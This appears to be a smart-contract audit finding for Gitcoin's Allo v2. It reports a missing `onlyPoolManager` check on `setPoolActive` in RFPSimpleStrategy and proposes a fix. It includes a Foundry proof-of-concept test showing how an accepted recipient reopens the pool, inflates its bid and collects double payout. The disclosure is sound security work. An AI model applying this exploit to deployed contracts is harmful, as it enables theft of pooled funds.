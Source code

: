 Silly Carob Opossum

high

# RFPSimpleStrategy setPoolActive function has no onlyPoolManager modifier
## Summary

The `setPoolActive` function in `RFPSimpleStrategy.sol` has no `onlyPoolManager` modifier.

```solidity
/// @dev 'msg.sender' must be a pool manager to close the pool. Emits a 'PoolActive()' event.
function setPoolActive(bool _flag) external {
    _setPoolActive(_flag);
    emit PoolActive(_flag);
}
```

Also, it emits the `PoolActive` event twice because the internal `_setPoolActive` function in `BaseStrategy.sol` emits it too.

```solidity
function _setPoolActive(bool _active) internal {
    poolActive = _active;
    emit PoolActive(_active);
}
```

## Vulnerability Detail

Anyone is allowed to change the activity status of the pool, which strategy is (or extends) RFPSimpleStrategy.

## Impact

It can affect all the scenarios that use functions with `onlyActivePool` and `onlyInactivePool` modifiers. 

1. The most critical one is that the accepted recipient can increase the payout amount by activating the pool and calling the `registerRecipient` function once again to update `proposalBid`.
2. Also, it's possible to prevent the registration of other recipients or prevent the owner from withdrawing funds.

## POC

Add this test to `RFPSimpleStrategyTest`, run with `forge test --mc RFPSimpleStrategyTest --mt testPOC -vv`.

```solidity
function testPOC() external {
    // Register recipient with initial proposalBid equals half of strategy max maxBid
    address attacker = recipient();
    uint256 initialProposalBid = maxBid / 2;
    Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});
    bytes memory data = abi.encode(attacker, false, initialProposalBid, metadata);

    vm.prank(address(allo()));
    address recipientId = strategy.registerRecipient(data, attacker);

    RFPSimpleStrategy.Recipient memory _recipient = strategy.getRecipient(recipientId);
    assertEq(uint8(_recipient.recipientStatus), uint8(IStrategy.Status.Pending));
    assertEq(_recipient.proposalBid, initialProposalBid);

    // Set two milestones: 70% and 30%  
    __setMilestones();

    // Accept recipient, pool becomes inactive
    vm.prank(address(allo()));
    strategy.allocate(abi.encode(recipientId), address(pool_admin()));

    assertEq(strategy.acceptedRecipientId(), recipientId);
    assertEq(strategy.isPoolActive(), false);

    // Recipient sets pool active, updates proposalBid and sets pool inactive back again
    vm.prank(attacker);
    strategy.setPoolActive(true);
    assertEq(strategy.isPoolActive(), true);

    uint256 proposalBid = maxBid;
    data = abi.encode(attacker, false, proposalBid, metadata);

    vm.prank(address(allo()));
    strategy.registerRecipient(data, attacker);

    vm.prank(attacker);
    strategy.setPoolActive(false);
    assertEq(strategy.isPoolActive(), false);

    _recipient = strategy.getRecipient(recipientId);
    assertEq(_recipient.proposalBid, maxBid);

    // Recipient submits upcoming milestone
    vm.prank(attacker);
    strategy.submitUpcomingMilestone(Metadata({protocol: 1, pointer: "metadata"}));

    // Pool distributes funds
    uint256 attackerInitialBalance = attacker.balance;
    
    vm.deal(pool_admin(), 1e19);
    vm.prank(pool_admin());
    allo().fundPool{value: 1e19}(poolId, 1e19);

    vm.prank(address(allo()));
    strategy.distribute(new address[](0), "", pool_admin());

    // Recipient got x2 payout
    uint256 expectedPayout = (initialProposalBid * 7e17) / 1e18;
    uint256 payout = attacker.balance - attackerInitialBalance;
    assertEq(payout, expectedPayout  * 2);
}
```

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L216-L222

## Tool used

Manual Review

## Recommendation

Add the `onlyPoolManager` modifier, and remove emitting the `PoolActive` event.

```solidity
function setPoolActive(bool _flag) external onlyPoolManager(msg.sender) {
    _setPoolActive(_flag);
}
```

